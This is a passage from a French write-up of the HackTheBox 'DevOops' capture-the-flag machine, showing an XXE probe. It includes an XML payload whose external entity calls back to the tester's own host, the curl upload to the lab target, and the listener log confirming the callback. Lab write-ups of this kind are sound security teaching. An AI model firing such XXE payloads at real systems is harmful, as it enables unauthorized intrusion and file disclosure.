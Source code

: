 ![DevOops HackTheBox CTF XXE vulnerable form](https://github.com/devl00p/blog/raw/master/images/htb/devoops_upload.png)

Ni une ni deux on met un port 80 en écoute et on envoie un fichier XML pour voir si le script va aller chercher la DTD (fichier servant à la validation de notre XML).  

Le XML est l'exemple type :  

```html
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://my_ip/test.txt">
]>
<r>&sp;</r>
```

L'envoi peut se faire via cURL :  

```plain
$ curl -D- -X POST http://10.10.10.91:5000/upload --form "file=@test.xml"
HTTP/1.1 500 Internal Server Error
Connection: close
Content-Type: text/html
Content-Length: 141

<html>
  <head>
    <title>Internal Server Error</title>
  </head>
  <body>
    <h1><p>Internal Server Error</p></h1>

  </body>
</html>
```

Malgré l'erreur 500 ça toque bien à la porte :)   

```plain
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.91 - - [06/Sep/2018 14:23:09] code 404, message File not found
10.10.10.91 - - [06/Sep/2018 14:23:09] "GET /test.txt HTTP/1.0" 404 -
```
